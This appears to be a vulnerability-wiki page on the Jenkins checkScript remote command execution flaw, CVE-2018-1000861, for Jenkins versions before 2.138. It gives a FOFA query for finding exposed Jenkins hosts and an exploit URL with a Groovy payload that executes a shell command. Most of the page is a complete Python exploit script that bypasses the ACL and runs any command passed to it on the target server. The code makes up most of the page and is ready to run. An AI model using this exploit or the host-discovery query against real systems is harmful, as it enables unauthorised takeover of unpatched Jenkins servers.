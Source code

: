 ```yaml
---
Title: Jenkins checkScript remote command execution vulnerability CVE-2018-1000861
---
```


# Jenkins checkScript remote command execution vulnerability CVE-2018-1000861

## Vulnerability Description

Jenkins is developed using the Stapler framework, which allows users to call public methods once through URL PATH. 

Through this vulnerability, we can find many exploit chains available. 

## Vulnerability Impact

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">Jenkins version < 2.138</span>

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">Jenkins build time < 2019-01-28</span>

## Network surveying and mapping

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">
<a-button href="https://fofa.info/result?qbase64=YXBwPSJKZW5raW5zIg%3D%3D">app="Jenkins"</a-button>
</a-checkbox>

## Vulnerability reappears

Login page

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1629513094370-fcc9d9e0-e71c-4e95-a197-b24f0bb85f2f-20220308153854558.png)

Use EXP to execute commands

```python
https://your-ip:8080/securityRealm/user/admin/descriptorByName/org.jenkinsci.plugins.scriptsecurity.sandbox.groovy.SecureGroovyScript/checkScript
?sandbox=true
&value=public class x {
  public x(){
    "touch /tmp/success".execute()
  }
```

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1629516741232-11c547ef-0ec4-4e31-9825-60a14def0f6a-20220308153855142.png)

## Vulnerability POC

<a-alert type="success" message="https://github.com/orangetw/awesome-jenkins-rce-2019" description="" showIcon>
</a-alert>

<br/>

```python
#!/usr/bin/python
# coding: UTF-8
# author: Orange Tsai(@orange_8361)
# 

import sys
import requests
from enum import Enum

# remove bad SSL warnings
try:
    requests.packages.urllib3.disable_warnings()
except:
    pass


endpoint = 'descriptorByName/org.jenkinsci.plugins.scriptsecurity.sandbox.groovy.SecureGroovyScript/checkScript'

class mode(Enum):
    ACL_PATCHED = 0
    NOT_JENKINS = 1
    READ_ENABLE = 2
    READ_BYPASS = 3
    ENTRY_NOTFOUND = 999

def usage():
    print '''
  Usage:
    python exp.py <url> <cmd>
    '''

def _log(msg, fail=False):
    nb = '[*]'
    if fail:
        nb = '[-]'
    print '%s %s' % (nb, msg)

def _get(url, params=None):
    r = requests.get(url, verify=False, params=params)
    return r.status_code, r.content

def _add_bypass(url):
    return url + 'securityRealm/user/admin/'

def check(url):
    flag, accessible = mode.ACL_PATCHED, False

    # check ANONYMOUS_READ
    status, content = _get(url)
    if status == 200 and 'adjuncts' in content:
        flag, accessible = mode.READ_ENABLE, True
        _log('ANONYMOUS_READ enable!')
    elif status == 403:
        _log('ANONYMOUS_READ disable!')

        # check ACL bypass, CVE-2018-1000861
        status, content = _get(_add_bypass(url))
        if status == 200 and 'adjuncts' in content:
            flag, accessible = mode.READ_BYPASS, True
    else:
        flag = mode.NOT_JENKINS

    # check entry point, CVE-2019-1003005
    if accessible:
        if flag is mode.READ_BYPASS:
            url = _add_bypass(url)
        status, content = _get(url + endpoint)

        if status == 404:
            flag = mode.ENTRY_NOTFOUND

    return flag

def exploit(url, cmd):
    payload = 'public class x{public x(){new String("%s".decodeHex()).execute()}}' % cmd.encode('hex')
    params = {
        'sandbox': True, 
        'value': payload
    }

    status, content = _get(url + endpoint, params)
    if status == 200:
        _log('Exploit success!(it should be :P)')
    elif status == 405:
        _log('It seems Jenkins has patched the RCE gadget :(')
    else:
        _log('Exploit fail with HTTP status [%d]' % status, fail=True)
        if 'stack trace' in content:
            for _ in content.splitlines():
                if _.startswith('Caused:'):
                    _log(_, fail=True)

if __name__ == '__main__':
    if len(sys.argv) != 3:
        usage()
        exit()

    url = sys.argv[1].rstrip('/') + '/'
    cmd = sys.argv[2]

    flag = check(url)
    if flag is mode.ACL_PATCHED:
        _log('It seems Jenkins is up-to-date(>2.137) :(', fail=True)
    elif flag is mode.NOT_JENKINS:
        _log('Is this Jenkins?', fail=True)
    elif flag is mode.READ_ENABLE:
        exploit(url, cmd)
    elif flag is mode.READ_BYPASS:
        _log('Bypass with CVE-2018-1000861!')
        exploit(_add_bypass(url), cmd)
    else:
        _log('The `checkScript` is not found, please try other entries(see refs)', fail=True)
```
